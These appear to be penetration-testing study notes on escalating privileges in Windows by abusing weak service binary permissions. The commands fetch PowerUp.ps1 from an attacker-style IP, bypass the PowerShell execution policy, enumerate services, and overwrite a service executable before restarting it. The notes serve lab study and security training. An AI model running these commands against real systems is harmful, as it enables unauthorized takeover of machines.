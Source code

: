 - Ressources : 
https://en.wikipedia.org/wiki/Windows_10_version_history
https://egre55.github.io/system-properties-uac-bypass/

#### Weak Permissions
#Weak_Permissions

**Weak Binary Permissions**

- Download SharpUp :
```sh
wget https://github.com/GhostPack/SharpUp/
```

- Run SharpUp :
```powershell
 .\SharpUp.exe audit
```
OR
- Run Powerup :
```sh
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
.\PowerUp.ps1
Get-ModifiableServiceFile
```

 - Checking BInary Permissions : 
 ```sh
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

- List running binary :
```powershell
Get-CimInstance -ClassName win32_service | Select
Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

The icacls utility outputs the corresponding principals and their permission mask. The most relevant permissions and their masks are listed below:

**Mask Permissions** : 

F : Full access
M : Modify access
RX : Read and execute access
R : Read-only access
W : Write-only access

- Check the startup status of the binary : 
```sh
Get-CimInstance -ClassName win32_service | Select Name, StartMode |
Where-Object {$_.Name -like 'mysql'}
#mysql is the name !
```

- Reboot the machine : 
```sh
shutdown /r /t 0
```
 - Replacing Service Binary
```sh
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
#then start the service
sc start SecurityService
```

